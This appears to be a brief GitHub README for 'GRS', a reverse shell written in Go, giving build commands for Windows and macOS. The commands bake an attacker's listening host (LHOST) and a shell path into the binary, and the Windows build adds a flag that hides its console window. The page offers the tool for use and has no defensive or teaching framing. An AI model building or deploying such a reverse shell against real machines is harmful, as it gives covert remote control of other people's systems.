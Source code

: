 # GRS
### A Golang reverse shell


#### To build:
    Windows:
$ go build -ldflags "-X 'main.host=**LHOST**' -X 'main.shell=**shell path**' -H windowsgui" "windows/GRS.go"
    
    Darwin:
$ go build -ldflags "-X 'main.host=**LHOST**' -X 'main.shellPath=**shell path**'" "darwin/GRS.go"
